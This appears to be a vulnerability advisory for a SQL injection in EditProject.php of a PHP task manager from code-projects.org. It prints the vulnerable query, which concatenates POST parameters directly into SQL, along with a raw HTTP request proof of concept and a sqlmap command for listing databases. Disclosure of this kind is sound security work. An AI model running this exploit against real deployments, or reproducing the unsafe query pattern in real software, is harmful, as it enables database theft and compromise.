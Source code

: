 # task-manager-in-php-sql1

https://code-projects.org/task-manager-in-php-with-source-code/

## NAME OF AFFECTED PRODUCT(S)

**task-manager-in-php**

## Vendor Homepage

https://code-projects.org/task-manager-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

EditProject.php

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/97b61777-5089-4b4f-841f-10e10be5859e

## PROBLEM TYPE

network remote.

## Vulnerability Type

sql injection

## Root Cause

EditProject.php file, SQL injection is used to obtain database information.

## Impact

## **Description of the vulnerability**

### EditProject.php

source code，the projectName parameter is not filtered and concatenated into the SQL statement.                                                                                                                                                                                                                                                                                                                                                                                                                                                               

```php
if(isset($_POST['submit'])){
	
	$sql = "UPDATE `project` SET `projectName`='".$_POST['projectName']."',`projectPrio`= '".$_POST['priority']."' WHERE projectID = '".$_POST['projectID']."'";
```

![image](https://github.com/user-attachments/assets/f5609878-ad04-4c81-8ba1-70bc3b109b2c)


## **Vulnerability recurrence**

### **POC**

```
POST /EditProject.php?edit=1&projectID=1 HTTP/1.1
Host: 127.0.0.1
Content-Length: 69
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="127", "Not)A;Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/EditProject.php?edit=1&projectID=1
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

projectID=1&projectName=test*&priority=high&submit=%E6%8F%90%E4%BA%A4

```

save as 1
python sqlmap.py -r 1 --dbs
![image](https://github.com/user-attachments/assets/add777d1-384c-471e-a094-317421d9c25b)

